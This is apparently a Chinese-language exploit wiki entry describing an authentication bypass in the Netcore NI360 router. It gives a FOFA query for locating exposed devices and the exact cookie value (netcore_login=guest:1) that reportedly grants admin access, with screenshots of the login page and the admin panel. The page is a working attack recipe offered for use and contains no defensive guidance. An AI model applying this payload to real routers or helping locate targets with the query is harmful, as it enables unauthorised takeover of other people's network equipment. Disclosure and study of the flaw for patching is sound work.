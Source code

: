 # 磊科 NI360路由器 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

>磊科 NI360路由器

## FOFA

> [!NOTE]
>
> title="Netcore"

## 漏洞描述

登录页面如下

![](http://wikioss.peiqi.tech/vuln/image-20210609112109559.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

添加 Cookie字段 : **netcore_login=guest:1**

刷新后登录后台

![image-20210609175225486](http://wikioss.peiqi.tech/vuln/image-20210609175225486.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

